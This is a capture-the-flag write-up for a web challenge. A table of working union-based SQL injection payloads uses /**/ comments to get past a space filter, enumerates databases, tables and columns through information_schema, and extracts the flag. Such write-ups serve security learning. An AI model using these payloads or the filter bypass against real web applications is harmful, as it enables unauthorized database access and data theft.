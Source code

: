 # Rejected Sequels

## Problem

```
Look at all these movie sequels that never got released! Will yours make it through??

Connect here:
http://jh2i.com:50008
```

## Solution

***Note**: solved after competition end*

Accessing the link, we get this page that provides a form for searching movie names:

![](images/sequel1.PNG)

As usual, first we go to the page source to see if we can get any useful information. Indeed, it contains an 
interesting comment: `<!-- if ( isset($_GET["debug"])){ echo($sql_query); } -->`

We try basic SQL injection (`" OR '1'='1`), however it only returns an error message from mySQL. Next we try inserting a mySQL print statement
`"union(select "hello world" as '')#`. It does show up at the bottom of all the entries, but without the space character.

![](images/sequel5.PNG)

Eventually we find that inline comment character `/**/` can be used to substitute for spaces in the injection. Now we can 
try different SQL Injection attacks (mostly union-based).

Payload | Information
------- | ------------------
`"order/**/by/**/2#` or `union/**/select(1)#` | [error message confirms only single column is queried](images/sequeltable1.PNG)
`"union/**/select/**/schema_name/**/from/**/information_schema.schemata#` | [leak all databases in the webapp](images/sequeltable2.PNG)
`"union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema="rejected_sequel"#` | [returns two tables: **flag, movies**](images/sequeltable3.PNG)
`"union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name="flag"#` | [flag table contains one column: **flag**](images/sequeltable4.PNG)
`"/**/union/**/select/**/flag/**/from/**/flag#` | [return values of column **flag** from table **flag**](images/sequeltable5.PNG)

Flag payload: `"/**/union/**/all/**/select/**/*/**/from/**/flag#` 

**Flag**: `flag{at_least_this_sequel_got_published}`


